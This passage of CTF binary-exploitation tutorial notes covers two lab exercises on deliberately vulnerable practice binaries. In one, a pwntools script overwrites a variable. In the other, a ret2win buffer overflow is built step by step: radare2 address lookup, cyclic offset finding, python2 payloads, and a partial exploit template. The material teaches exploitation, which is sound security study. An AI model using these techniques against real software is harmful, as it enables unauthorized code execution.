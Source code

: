       # Start program
      io = process('./overwrite')
      
      # Send string to overflow buffer
      io.sendlineafter(b'?', b'A' * 32 + p32(0xdeadbeef))
      
      # Receive output
      print(io.recvall().decode())
     ```
  
## ==================================================================

## (3) Return to Win (Ret2Win) Buffer Overflows
Files: https://github.com/Crypto-Cat/CTF/tree/main/pwn/binary_exploitation_101/03-return_to_win

   1. Look at _source code_ and see the `scanf("%s", buffer);`
     + Overflow here
     
   2. Since **No ASLR/PIE** get the _address to_ the `hacked()` function 
     + `r2 ret2win`
     + `[]> aaa`
     + `[]> afl`
     + Get the address of `sym.hacked`
      - `0x08049182`
     
   3. Use `pwndbg`
     + Use `cyclic` to find the `EIP` offset (it's **28** in this case)
     
   4. Check a successful spacing: `python2 -c "print 'A'*28 + 'B'*4 + 'C'*32" > output`
     + Check this gdb 
     + `gdb <binary>`
     + `pwndbg> run < output`
     
   5. Manual Exploit with hardcoded address from step 2 above ()
     + `python2 -c "print 'A'*28 + '\x82\x91\x04\x08'" > output`
      - format is because we're looking at a _little endian_ architecture
     + `gdb <binary>`
     + `pwndbg> run < output`
     
     
### 6. Write Exploit Script
   ```exploit.py
      from pwn import *

      # Allows you to switch between local/GDB/remote from terminal
      def start(argv=[], *a, **kw):
          if args.GDB:  # Set GDBscript below
              return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
          elif args.REMOTE:  # ('server', 'port')
              return remote(sys.argv[1], sys.argv[2], *a, **kw)
          else:  # Run locally
              return process([exe] + argv, *a, **kw)
      
      # Specify your GDB script here for debugging
      gdbscript = '''
      init-pwndbg
      continue
      '''.format(**locals())
      
      # Set up pwntools for the correct architecture
   ```